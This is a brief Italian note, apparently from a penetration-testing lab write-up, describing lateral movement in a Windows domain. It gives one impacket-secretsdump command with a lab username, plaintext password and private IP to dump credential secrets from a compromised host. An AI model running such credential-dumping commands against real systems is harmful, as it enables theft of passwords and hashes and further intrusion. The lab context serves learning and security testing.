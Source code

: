 ### **Lateral Movement**
Prima di saltare da una macchina all'altra è essenziale ottenere tutti i "Secrets" della macchina pwnata. Ecco una lista dei possibili passi da fare
*Impacket-secretsdump*
```bash
impacket-secretsdump NORTH/jeor.mormont:'_L0ngCl@w_'@192.168.56.22
```
![[Pasted image 20230906162707.png]]
